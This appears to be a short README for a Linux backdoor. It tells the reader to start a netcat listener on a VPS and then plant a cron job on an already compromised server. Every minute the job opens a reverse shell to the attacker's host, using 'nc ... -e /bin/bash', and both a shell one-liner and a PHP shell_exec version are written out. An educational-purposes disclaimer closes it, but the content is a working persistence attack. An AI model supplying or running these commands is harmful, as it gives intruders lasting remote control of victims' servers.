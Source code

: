 
Linux  backdoor
* You need vps(aws).
### Linux/Ubuntu
* On the VPS run netcat listener   nc -lnvp 4444   (you can type whatever port you want).
* When you have reverse shell or php shell with remote code execution allowed on the target server use this script to create a cronjob which
 connect your target to your VPS in every 1 minute.
* This is for reverse shell:
* echo "*/1 * * * *  nc your_vps_public_IP the_port_for_netcat  -e /bin/bash   > /dev/null 2>&1 &" > cron && cat cron | crontab -
* This is for php shell:
* <?php echo shell_exec("echo "*/1 * * * *  nc your_vps_public_IP the_port_for_netcat  -e /bin/bash   > /dev/null 2>&1 &" > cron && cat cron | crontab -
");?>

### Only for educational purposes!
### Use it on your own server!
